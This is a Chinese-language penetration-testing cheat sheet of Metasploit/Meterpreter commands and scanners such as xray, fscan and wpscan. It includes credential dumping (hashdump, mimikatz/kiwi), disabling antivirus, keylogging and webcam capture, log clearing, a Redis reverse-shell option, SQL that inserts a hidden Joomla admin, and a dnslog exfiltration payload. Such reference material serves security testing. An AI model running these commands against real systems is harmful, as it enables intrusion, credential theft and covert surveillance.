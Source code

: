 综合框架
----------------------------------------

漏洞检测
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ metasploit
	- Terminal下msf常用命令简介
		+ 打开msf终端：``msfconsole``
		+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
		+ 设置全局变量
			::
			
				set proxies socks5:127.0.0.1:7222
				set ReverseAllowProxy true
	- msf终端下常用命令简介
		+ 显示命令的帮助信息：``help [db_connect]``
		+ 搜索含有关键字的模块：``search [module]``
		+ 选择模块：``use [module]``
		+ 显示模块支持的payload：``show payload``
		+ 显示模块参数：``show options``
		+ info详情：``info``
		+ 设置取消参数：``set/unset [opt]``
		+ 设置取消全局参数：``setg/unsetg [opt]``
		+ 返回上级状态：``back``
		+ 运行攻击模块：``exploit/run``
		+ 查看当前连接会话：``sessions``
+ meterpreter
	- 基本系统命令
		+ ``sessions -h`` ：查看帮助
		+ ``sessions -i <ID值>`` ：进入会话   -k  杀死会话
		+ ``background`` ：将当前会话放置后台
		+ ``info`` ：查看已有模块信息
		+ ``getuid`` ：查看获取的当前权限
		+ ``getsystem`` ：提权
		+ ``getpid`` ：获取当前进程的pid
		+ ``sysinfo`` ：查看目标机系统信息
		+ ``ps`` ：查看当前活跃进程    
		+ ``kill <PID值>`` ：杀死进程
		+ ``idletime`` ：查看目标机运行时间
		+ ``hashdump`` ：从SAM数据库导出密码的哈希
		+ ``reboot/shutdown`` ：重启/关机
		+ ``shell`` ：进入目标机cmd shell,windows环境下中文乱码的解决办法:chcp 65001
		+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
		+ ``load kiwi`` ：加载wiki模块
			::
			
				creds_all：列举所有凭据
				creds_kerberos：列举所有kerberos凭据
				creds_msv：列举所有msv凭据
				creds_ssp：列举所有ssp凭据
				creds_tspkg：列举所有tspkg凭据
				creds_wdigest：列举所有wdigest凭据
				dcsync：通过DCSync检索用户帐户信息
				dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
				golden_ticket_create：创建黄金票据
				kerberos_ticket_list：列举kerberos票据
				kerberos_ticket_purge：清除kerberos票据
				kerberos_ticket_use：使用kerberos票据
				kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
				lsa_dump_sam：dump出lsa的SAM
				lsa_dump_secrets：dump出lsa的密文
				password_change：修改密码
				wifi_list：列出当前用户的wifi配置文件
				wifi_list_shared：列出共享wifi配置文件/编码
		+ ``run`` ：使用扩展库，输入run后按两下tab列出已有的脚本
			::
			
				run post/windows/manage/migrate                  #自动进程迁移    
				run post/windows/gather/checkvm                  #查看目标主机是否运行在虚拟机上   
				run post/linux/gather/checkvm                    # 是否虚拟机
				run post/windows/manage/killav                   #关闭杀毒软件    
				run post/windows/manage/enable_rdp               #开启远程桌面服务    
				run post/windows/manage/autoroute                #查看路由信息    
				run post/windows/gather/dumplinks                #获取最近的文件操作
				run post/windows/gather/enum_logged_on_users     #列举当前登录的用户    
				run post/windows/gather/enum_applications        #列举应用程序    
				run windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码    
				run windows/gather/smart_hashdump                #dump出所有用户的hash
		+ ``run killav`` ：关闭杀毒软件
		+ ``run scraper`` : 查看目标主机详细信息
	- execute执行文件
		+ ``execute`` : 参数  -f 可执行文件   # 执行可执行程序
		+ ``execute -H -i -f cmd.exe`` : 创建新进程cmd.exe，-H不可见，-i交互
	- 目录/文件操作
		+ ``pwd/getwd`` : 目标机器上当前目录(windows)
		+ ``cd`` : 目标机器上切换目录
		+ ``ls`` : 目标机器上显示
		+ ``dir`` : 目标机器上查看
		+ ``mkdir dir1 dir2`` : 
		+ ``mv oldfile newfile`` : 
		+ ``rmdir dir1`` : 
		+ ``getlwd / lpwd`` : 查看攻击机当前目录(Linux)
		+ ``lls`` : 在攻击机显示
		+ ``lcd`` : 在攻击机上切换目录
		+ ``cat C:\\Users\\zq\\Desktop\\123.txt`` : 目标机器上读取内容
		+ ``edit C:\\Users\\zq\\Desktop\\123.txt`` : 篡改目标机器上的文件
		+ ``search -f *.jsp -d e:\`` : 搜索E盘中所有以.jsp为后缀的文件
		+ ``upload /test.x C:\\Users\\zq\\Desktop`` : 将文件传到目标机的桌面
		+ ``download C:\\123.txt /root`` : 将目标机文件下载到/root目录下
	- 时间戳伪造
		+ ``timestomp C:// -h`` : 查看帮助
		+ ``timestomp -v C://2.txt`` : 查看时间戳
		+ ``timestomp C://2.txt -f C://1.txt`` : 将1.txt的时间戳复制给2.txt 
	- 进程
		+ ``ps`` : 查看目标主机活跃进程信息
		+ ``getpid`` : 查看当前Meterpreter Shell的进程
		+ ``migrate 1732`` : 将当前Meterpreter Shell的进程迁移到PID为1732的进程上，这样不容器被发现
		+ ``kill <pid值>`` : 杀死进程
	- 网络
		+ ``run get_local_subnets`` : 获取目标主机上的子网状态
		+ ``db_nmap`` : 扫描内网存活主机
		+ ``arp`` 显示目标机器arp缓存
		+ ``getproxy`` 显示目标机器的代理
		+ ``ifconfig``
		+ ``netstat -ano``
		+ ``route``
		+ ``portfwd`` 端口重定向
		+ ``portfwd add -l 3389 -p 3389 -r 172.16.0.100`` 将目标机的3389端口转发到本地3389端口
		+ 然后直接在本地使用命令远程登录：``rdesktop 127.0.0.1``
	- 添加路由
		+ run autoroute –h    # 查看帮助
		+ run autoroute -s 192.168.159.0/24  # 添加到目标环境网络
		+ run autoroute –p  # 查看添加的路由
		+ 扫描
			- ``run post/windows/gather/arp_scanner RHOSTS=192.168.159.0/24``
			- ``run auxiliary/scanner/portscan/tcp RHOSTS=192.168.159.144 PORTS=3389`` 
	- uictl开关键盘/鼠标
		+ ``uictl [enable/disable] [keyboard/mouse/all]`` 开启或禁止键盘/鼠标
		+ ``uictl disable mouse`` 禁用鼠标
		+ ``uictl disable keyboard`` 禁用键盘
	- 用户接口命令（键盘嗅探，鼠标、屏幕、音频、摄像头）
		+ ``keyscan_start`` : 开启键盘记录功能
		+ ``keyscan_dump`` : 显示捕捉到的键盘记录信息
		+ ``keyscan_stop`` : 停止键盘记录功能
		+ ``mouse`` : 鼠标命令
		+ ``screenshare`` : 屏幕监控
		+ ``screenshot`` : 截图
		+ ``record_mic`` : 音频
		+ ``play *.wav`` : 播放音频
		+ ``webcam_list`` : 查看目标主机的摄像头
		+ ``webcam_snap`` : 目标主机摄像头拍照
		+ ``webcam_stream`` : 目标主机通过摄像头开视频
		+ ``webcam_chat -h`` : 开始与目标进行视频对话。
		+ ``run vnc`` : 运行vnc远程查看屏幕
	- clearav清除日志
		+ clearev
+ vulmap【web】
	- 项目地址：``https://github.com/zhzyker/vulmap``
	- 安装
			::
			
				git clone https://github.com/zhzyker/vulmap.git
				pip3 install -r requirements.txt
				
	- 基本用法：``python3 vulmap.py -u http://example.com``

+ xray【web】
	- 全局配置
		+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
		+ --log_level 用于指定全局的日志配置
		+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
	- reverse命令
		+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
	- genca
		+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
	- subdomain
		+ 子域名扫描
		+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
		+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
	- webscan
		+ 扫描web漏洞，核心功能
		+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
			- ``--plugins xss --plugins xss,sqldet,phantasm``
		+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
			- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
			- ``--plugins phantasm --poc "*thinkphp*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*"``
			- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
		+ 配置输入来源
			- --listen 
				+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
			- --basic-crawler 
				+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
			- --url 
				+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
			- --raw-request 
				+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
		+ 输出方式
			- --html-output 将结果输出为 html 报告, 报告样例
			- --webhook-output 将结果发送到一个地址
			- --json-output 将结果输出到一个 json 文件中
		+ 示例
			- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
			- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
			- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

综合
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ ARL 资产侦察灯塔系统
	::

		git clone https://github.com/TophantTechnology/ARL
		cd ARL/docker/
		docker volume create arl_db
		docker-compose pull
		docker-compose up -d 
		
		默认端口5003 (https), 默认用户名密码admin/arlpass

+ ShuiZe_0x727
	- 项目：``https://github.com/0x727/ShuiZe_0x727``
	- 协助红队人员快速的信息收集，测绘目标资产，寻找薄弱点。
	- 全方位收集相关资产，并检测漏洞。也可以输入多个域名、C段IP等。
+ LiqunKit
	- 项目：``https://github.com/Liqunkit/LiqunKit_``
	- 漏洞辅助工具箱，包含致远OA，泛微OA，万户OA，蓝凌OA，用友OA，通达OA，weblogic，struts2，thinkphp，shiro，数据库综合。
+ 带带弟弟
	- 项目：``https://github.com/SleepingBag945/dddd``
	- 示例：
		::
		
			# 指定IP禁Ping全端口扫描指定端口
			./dddd -t 172.16.100.1 -p 80,53,1433-5000 -Pn
			先配置./config/subfinder-config.yaml中的FOFA 邮箱和KEY。
				fofa: ["xxxx@qq.com:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"]
			./dddd -t "domain=\"baidu.com\"" -fofa (从fofa取100个baidu.com域名的目标)
			./dddd -t "domain=\"baidu.com\"" -fofa -ffmc 10000 (指定最大数量为10000 默认100)
+ fscan
	- 项目地址：``https://github.com/shadow1ng/fscan``
	- 示例
		::
		
			fscan.exe -h 192.168.1.1/24  (默认使用全部模块)  
			fscan.exe -h 192.168.1.1/16  (B段扫描)
			fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)  
			fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)  
			fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)  
			fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)  
			fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)  
			fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)  
			fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径)   
			fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )  
			fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)  
			fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)  
			fscan64.exe -h 10.10.180.0-10.10.180.255 -p 445 -sc ms17|findstr "MS17-010"（指定模块）
			fscan.exe -hf ip.txt  (以文件导入)
+ Template 
	+ 项目地址：https://github.com/1n7erface/Template
+ uniscan
+ goon
	- 项目地址：``https://github.com/i11us0ry/goon``
	- goon,集合了fscan和kscan等优秀工具功能的扫描爆破工具。
	- 功能包含：ip探活、port扫描、web指纹扫描、title扫描、fofa获取、ms17010、mssql、mysql、postgres、redis、ssh、smb、rdp、telnet等爆破以及如netbios探测等功能。
+ Railgun
	- 项目地址：``https://github.com/lz520520/railgun``
	- Railgun为一款GUI界面的渗透工具，将部分人工经验转换为自动化，集成了渗透过程中常用到的一些功能，目前集成了端口扫描、端口爆破、web指纹扫描、漏洞扫描、漏洞利用以及编码转换功能，后续会持续更新。
+ SweetBabyScan
	- 项目地址：``https://github.com/inbug-team/SweetBabyScan``
	- 轻量级内网资产探测漏洞扫描工具，支持弱口令爆破的内网资产探测漏洞扫描工具，集成了Xray与Nuclei的Poc
+ Ladon
	- 项目地址：``https://github.com/k8gege/Ladon``

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
	- 数据库权限改管理员密码
		::
		
			以下两条命令成功创建joomla后台用户admin2/secret的超级管理员
			INSERT INTO `am2zu_users` (`name`, `username`, `password`, `params`, `registerDate`, `lastvisitDate`, `lastResetTime`) VALUES ('Administrator2', 'admin2','d2064d358136996bd22421584a7cb33e:trd7TvKHx6dMeoMmBVxYmg0vuXEA4199', '', NOW(), NOW(), NOW());
			INSERT INTO `am2zu_user_usergroup_map` (`user_id`,`group_id`) VALUES (LAST_INSERT_ID(),'8');
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描
+ thinkphp
	- https://github.com/Lucifer1993/TPscan
	- https://github.com/theLSA/tp5-getshell


带外数据监控
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ dnslog
	- 利用场景
		+ Sql-Blind
		+ RCE
		+ SSRF
		+ RFI（Remote File Inclusion）
	- 原理
		将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
	- 限制
		load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
	- 示例
		+ ``select load_file('\\\\',version(),'.dnslog地址')``
+ ceye.io
	- http://ceye.io/profile中记录了个人的Identifier
	- 可以请求任何http文件
	- dns请求记录

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
